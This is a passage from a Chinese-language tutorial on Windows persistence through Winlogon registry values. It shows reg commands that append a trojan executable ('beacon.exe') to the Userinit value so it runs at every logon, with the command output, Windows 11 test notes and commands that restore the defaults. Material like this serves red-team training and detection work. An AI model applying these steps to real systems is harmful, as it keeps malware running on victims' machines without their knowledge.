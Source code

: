 恢复默认值。

```plaintext
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /d "explorer.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 和 HKLM 都成功执行。

2.Userinit

默认值

```plaintext
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\windows\system32\userinit.exe,
```

直接修改值，在逗号后面新增木马绝对路径，放 C:\\windows\\system32 下或是其他位置都行。

```plaintext
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe
```

重启登录即生效，直接作为 winlogon 子进程运行。

![Userinit 进程运行状态.png](assets/1698895515-94978a208916633ea4f44e24da0b3cd2.png)

恢复默认值。

```plaintext
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Userinit" /t REG_SZ /d "C:\Windows\System32\userinit.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 没有执行。

3.Notify
